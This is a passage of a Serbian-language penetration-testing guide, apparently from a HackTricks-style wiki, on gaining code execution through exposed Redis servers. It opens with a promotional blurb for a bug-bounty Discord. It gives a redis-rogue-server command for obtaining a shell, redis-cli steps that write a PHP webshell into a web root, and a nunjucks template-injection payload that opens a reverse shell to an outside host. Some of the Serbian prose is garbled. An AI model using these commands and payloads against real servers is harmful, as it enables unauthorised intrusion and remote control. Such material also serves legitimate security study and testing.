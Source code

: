 Pridružite se [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) serveru kako biste komunicirali sa iskusnim hakerima i lovcima na bagove!

**Hakerski uvidi**\
Uključite se u sadržaj koji istražuje uzbuđenje i izazove hakovanja

**Vesti o hakovanju u realnom vremenu**\
Budite u toku sa dinamičnim svetom hakovanja putem vesti i uvida u realnom vremenu

**Poslednje objave**\
Budite informisani o najnovijim nagradama za pronalaženje bagova i važnim ažuriranjima platformi

**Pridružite nam se na** [**Discord-u**](https://discord.com/invite/N3FrSbmwdy) i počnite da sarađujete sa vrhunskim hakerima danas!

## Redis RCE

### Interaktivna ljuska

[**redis-rogue-server**](https://github.com/n0b0dyCN/redis-rogue-server) može automatski dobiti interaktivnu ljusku ili obrnutu ljusku u Redis(<=5.0.5).

```
./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP>
```

### PHP Webshell

Informacije sa [**ovde**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). Morate znati **putanju** do **foldera veb sajta**:

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```

​Ako pristup web ljusci izuzetak, možete isprazniti bazu podataka nakon rezervne kopije i pokušati ponovo, ne zaboravite da vratite bazu podataka.

### Šablon Web ljuske

Kao i u prethodnom odeljku, takođe možete prepisati neku html datoteku šablona koja će biti tumačena od strane mašine za šablone i dobiti ljusku.

Na primer, prateći [**ovaj writeup**](https://www.neteye-blog.com/2022/05/cyber-apocalypse-ctf-2022-red-island-writeup/), možete videti da je napadač ubacio **rev shell u html** koji tumači **nunjucks mašina za šablone:**

```javascript
{{ ({}).constructor.constructor(
"var net = global.process.mainModule.require('net'),
cp = global.process.mainModule.require('child_process'),
sh = cp.spawn('sh', []);
var client = new net.Socket();
client.connect(1234, 'my-server.com', function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});"
)()}}
```
